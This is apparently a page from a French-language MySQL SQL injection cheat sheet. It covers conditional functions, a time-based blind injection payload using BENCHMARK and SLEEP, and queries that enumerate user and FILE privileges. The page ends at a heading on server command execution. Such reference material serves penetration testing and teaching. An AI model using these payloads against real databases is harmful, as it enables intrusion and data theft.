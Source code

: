 ## Les requêtes conditionnelles

- CASE
- IF()
- IFNULL()
- NULLIF()

**Exemples :**
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END;

## Gestion du temps

- SLEEP() (MySQL v5.0.12)
- BENCHMARK() (MySQL v4 et v5)

**Exemples :**
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
**Remarques :**

- L’utilisation du temps de réponse en forçant le serveur SQL à exécuter des calculs de benchmark() ou à faire un sleep() est une technique couramment utilisée pour les injections SQL en aveugle (BSQLi). Le temps de réponse de l’application ciblée joue le rôle d’un booléen (court = true, long = false).

## Privilèges et droits

Les requêtes qui suivent permettent de déterminer si un utilisateur dispose du privilège « FILE » ou listent tous les privilèges.

Les privilèges root sont requis, compatible MySQL v4 et v5 :
SELECT file_priv FROM mysql.user WHERE user = 'username';

SELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user;

Pas de privilège requis (MySQL v5) :

SELECT grantee, is_grantable FROM information_schema.user_privileges WHERE privilege_type = 'file' AND grantee like '%username%';

SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges;

Privilèges sur une base de données (MySQL v5) :

SELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges;

Privilèges sur les tables et colonnes (MySQL v5) :

SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges;

## Exécution de commande sur le serveur
